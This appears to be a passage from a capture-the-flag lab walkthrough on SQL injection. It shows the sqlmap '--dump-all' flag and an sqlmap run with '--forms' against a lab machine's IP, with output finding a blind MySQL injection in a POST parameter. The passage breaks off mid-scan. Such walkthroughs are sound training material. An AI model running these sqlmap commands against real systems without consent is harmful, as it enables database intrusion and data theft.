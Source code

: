 - What flag dumps all data from every table
> --dump-all

## [Section 5 - SQL Injection]: Vulnerable Web Application
- Set the url to the machine ip, and run the command

    ```bash
    $ sqlmap -u http://10.10.47.32 --forms
            ___
        __H__                                                                                                                                          
    ___ ___[.]_____ ___ ___  {1.5#stable}                                                                                                                
    |_ -| . [']     | .'| . |                                                                                                                             
    |___|_  ["]_|_|_|__,|  _|                                                                                                                             
        |_|V...       |_|   http://sqlmap.org                                                                                                           

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting @ 09:16:10 /2021-01-20/

    [09:16:10] [INFO] testing connection to the target URL
    [09:16:10] [INFO] searching for forms
    [#1] form:
    POST http://10.10.47.32/
    POST data: msg=
    do you want to test this form? [Y/n/q] 
    > 
    Edit POST data [default: msg=] (Warning: blank fields detected): 
    do you want to fill blank fields with random values? [Y/n] 
    [09:16:13] [INFO] using '/home/kali/.local/share/sqlmap/output/results-01202021_0916am.csv' as the CSV results file in multiple targets mode
    [09:16:13] [INFO] testing if the target URL content is stable
    [09:16:13] [INFO] target URL content is stable
    [09:16:13] [INFO] testing if POST parameter 'msg' is dynamic
    [09:16:13] [WARNING] POST parameter 'msg' does not appear to be dynamic
    [09:16:14] [INFO] heuristic (basic) test shows that POST parameter 'msg' might be injectable (possible DBMS: 'MySQL')
    [09:16:14] [INFO] heuristic (XSS) test shows that POST parameter 'msg' might be vulnerable to cross-site scripting (XSS) attacks
    [09:16:14] [INFO] testing for SQL injection on POST parameter 'msg'
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
    [09:16:16] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [09:16:16] [WARNING] reflective value(s) found and filtering out
    [09:16:18] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
    [09:16:19] [INFO] testing 'Generic inline queries'
    [09:16:19] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
    [09:16:32] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
    [09:16:43] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
    [09:16:55] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
    [09:16:56] [INFO] POST parameter 'msg' appears to be 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause' injectable (with --not-string="not")
    [09:16:56] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
    [09:16:56] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
    [09:16:57] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
    [09:16:57] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'